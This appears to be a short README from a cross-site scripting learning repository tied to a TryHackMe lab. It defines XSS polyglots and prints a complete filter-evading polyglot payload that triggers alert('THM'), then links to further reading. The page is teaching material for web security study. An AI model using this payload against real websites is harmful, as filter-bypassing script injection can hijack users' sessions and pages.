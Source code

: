 # Polyglots

- An XSS polyglot is a string of text which can escape attributes, tags and ***bypass filters all in one***. 

- You could have used the [below polyglot]() on all [6 levels](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/11%20-%20Perfecting%20Your%20Payload) you've completed, and it would have executed the code successfully.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
# Further Learnings

- For more detailed explanation of [XSS Polyglots](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot), go to [Further Learning](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/15%20-%20Further%20Learning)
